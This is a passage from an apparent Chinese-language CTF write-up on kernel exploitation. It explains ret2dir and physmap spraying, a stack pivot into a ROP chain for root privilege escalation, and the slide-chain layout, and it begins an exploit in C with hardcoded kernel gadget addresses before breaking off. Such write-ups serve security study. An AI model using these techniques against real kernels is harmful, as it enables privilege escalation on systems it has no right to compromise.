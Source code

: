 > ret2dir 是哥伦比亚大学网络安全实验室在 2014 年提出的一种攻击手法，主要用来**绕过 smep、smap、pxn 等用户空间与内核空间隔离的防护手段**，原论文见此处[http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)

> 当然，使用 `msg_msg` 或者 `sk_buff` 在内核空间中布置恶意数据也可以，不过在笔者看来对这题而言是多此一举...

那么现在又出现一个新的问题，**我们如何得知我们布置的恶意数据在内核空间中的对应地址呢？**我们无法进行内核空间中的内存搜索，因此也就无法直接得知我们布置的恶意数据在内核空间中的地址

**答案是不需要搜索**，这里我们使用[原论文](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)中的一种名为 `physmap spray` 的攻击手法——**使用 mmap 喷射大量的物理内存写入同样的 payload**，之后再随机挑选一个 direct mapping area 上的地址进行利用，这样我们就**有很大的概率命中到我们布置的 payload 上**

经笔者实测当我们喷射的内存页数量达到一定数量级时**我们总能准确地在 direct mapping area 靠中后部的区域命中我们的恶意数据**

最后就是 gadget 的挑选与 rop chain 的构造了，我们不难想到的是可以通过形如 `add rsp, val ; ret` 的 gadget 跳转到内核栈上的 `pt_regs` 上，在上面布置提权的 rop chain，但在本题当中 `pt_regs` 只有 r9 与 r8 两个寄存器可用，笔者提前对内核栈进行了清理——

![image.png](https://s2.loli.net/2022/05/07/xik67DJWKez9FNl.png)

> 编译器优化成了 qmemcpy，其实笔者是逐个寄存器赋值的

但其实仅有两个寄存器也够用了，我们可以利用 `pop_rsp ; ret` 的 gadget 进行栈迁移，**将栈迁移到我们在用户空间所布置的恶意数据上**，随后我们直接在恶意数据靠后的位置布置提权降落回用户态的 rop chain 即可

由于 buddy system 以页为单位进行内存分配，所以笔者也以页为单位进行 physmap spray，以求能消耗更多的物理内存，提高命中率，这里笔者懒得去计算偏移了，所以在每张内存页上布置的都是“三段式”的 rop chain，将我们跳转到 `pt_regs` 的 gadget 同时用作 slide code——

```
------------------------
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret
...
add rsp, val ; ret # 该gadget必定会命中下一个区域中的一条ret，之后便能平缓地“滑”到常规的提权 rop 上
------------------------
ret
ret
...
ret
------------------------
common root ROP chain
------------------------
```

最后的 exp 如下：

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

size_t  prepare_kernel_cred = 0xffffffff810c9540;
size_t  commit_creds = 0xffffffff810c92e0;
size_t  init_cred = 0xffffffff82a6b700;
size_t  pop_rdi_ret = 0xffffffff8108c6f0;
size_t  pop_rax_ret = 0xffffffff810115d4;
size_t  pop_rsp_ret = 0xffffffff811483d0;
size_t  swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00fb0 + 27;
size_t  add_rsp_0xe8_pop_rbx_pop_rbp_ret = 0xffffffff812bd353;
size_t  add_rsp_0xd8_pop_rbx_pop_rbp_ret = 0xffffffff810e7a54;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t  ret = 0xffffffff8108c6f1;

void    (*kgadget_ptr)(void);
```